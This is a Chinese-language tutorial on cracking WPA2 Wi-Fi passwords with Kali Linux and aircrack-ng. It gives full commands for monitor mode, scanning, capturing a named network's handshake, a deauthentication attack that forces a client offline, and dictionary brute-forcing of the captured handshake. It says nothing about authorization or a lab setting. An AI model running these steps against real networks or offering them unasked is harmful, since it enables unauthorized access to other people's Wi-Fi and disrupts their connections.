

本文讲述如何利用**kali**机 **aircrack-ng**相关命令，抓取**wifi**连接握手包。然后结合密码字典，破解wifi账号密码。

### aircrack-ng简介

Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上（设备列表请参阅其官方网站）并嗅探802.11a，802.11b，802.11g的数据。


### 工具准备

kali攻击机、USB无线网卡，如Ralink 802.11n。


### WIFI破解过程

整个wifi破解过程，包括三个步骤：

1. WIFI信息收集
2. WIFI连接握手包抓取
3. 利用密码字典暴力跑包




### WIFI信息收集

- 使用命令列举网卡信息，查找无线网卡名称：`airmon-ng`

  ```python
  root@kali:~# airmon-ng
  ```

  

  发现无线网卡`wlan0`。

- 开启无线网卡监听模式：`airmon-ng start <无线网卡名称>`

  ```python
  root@kali:~# airmon-ng start wlan0
  ```

  

- 查看无线网卡监听模式是否打开：`iwconfig`

  ```python
  root@kali:~# iwconfig
  ```


无线网卡`wlan0`处于监听模式，名称为`wlan0mon`

- 扫描附件wifi热点信息：`airodump-ng <处于监听模式的网卡名称>`

  ```python
  root@kali:~# airodump-ng wlan0mon
  ```

  

输出的两个列表不停的刷新显示。第一个列表表示扫描到的无线网络 AP 信息：**BSSID**: 无线 AP 的硬件地址；**PWR**: 信号强度，值是负数，绝对值越小表示信号越强；**Beacons**：无线AP发出的通告编号；**\#Data**：被捕获到的数据分组的数量（一般数据量越大，抓取握手包更容易）；**\#/s**：过去10秒钟内每秒捕获数据分组的数量；**MB**：无线AP所支持的最大速率；**CH**: 无线网络信道；**ENC**: 加密方式，要破解的是 WPA2；**CIPHER**：加密算法；
**AUTH**：使用的认证协议；**ESSID**: 无线网络的名称。第二个列表表示某个无线网络中和用户设备的连接信息：**BSSID**: 无线 AP 的硬件地址；**STATION**: 用户设备的硬件地址。

通过扫描结果发现存在wifi信号**ChinaNet-LRRv**，其硬件地址为`80:xx:xx:xx:xx:28`。并且存在客户端连接至该wifi，该客户端硬件地址为`18:yy:yy:yy:yy:28`。


### 握手包抓取

- 抓取握手包：`airodump-ng -c <CH> --bssid <BSSID> -w <要保存握手包的目录> <处于监听模式的网卡名称>`

```python
root@kali:~# airodump-ng -c 1 --bssid 80:xx:xx:xx:xx:28 -w /home/ChinaNet-LRRv wlan0mon
```

抓包界面如下图所示：


要抓握手包，需要客户端在wifi重新认证连接的情况下才能抓到。可使用下列命令让客户端下线，以便客户端重新连接。

- 发送反认证包，让客户端下线。客户端重新连接，便于抓取握手包：`aireplay-ng -0 <发送反认证包的个数> -a <BSSID> -c <强制下线的MAC地址（STATION下面的地址）> 无线网卡名称`

**-0**：采用Deauth攻击模式，后面紧跟攻击次数，这里设置为20，大家可以根据实际情况设置；**-a**：后面跟AP的mac地址；**-c**：后面跟客户端的mac地址。

```python
root@kali:~# aireplay-ng -0 20 -a 80:xx:xx:xx:xx:28 -c 18:yy:yy:yy:yy:40 wlan0mon
```


如此，`18:yy:yy:yy:yy:40`被强制下线。

- 当客户端再次连接wifi时，抓取`80:xx:xx:xx:xx:28` 与 `18:yy:yy:yy:yy:40`间连接的握手包：


抓到握手包之后，`Ctrl+C`停止抓包。查看对应目录下的包含握手信息的包：


### WIFI密码破解

- 结合密码字典，使用aircrack-ng进行破解：`aircrack-ng -w <本地的字典文件> <握手包>`


```python
root@kali:~# aircrack-ng -w /home/common.txt /home/ChinaNet-LRRV-01.cap 
```

出现**KEY FOUND**，则表示破解成功，括号中字符串即为密码。


- 无线网卡退出监听模式：`airmon-ng stop <处于监听模式的无限网卡名称>`

```python
root@kali:~# airmon-ng stop wlan0mon
```


### FAQ

实操过程中，可能出现：

- 扫描wifi过程中，无法收集到wifi信息
- 抓包中出现：fixed channel wlan0mon xx

注意：拔掉无线网卡重新插入，或者重启虚拟机。

### 参考链接

- [https://github.com/conwnet/wpa-dictionary](https://github.com/conwnet/wpa-dictionary)
- [https://www.cnblogs.com/zgang/p/11562012.html](https://www.cnblogs.com/zgang/p/11562012.html)


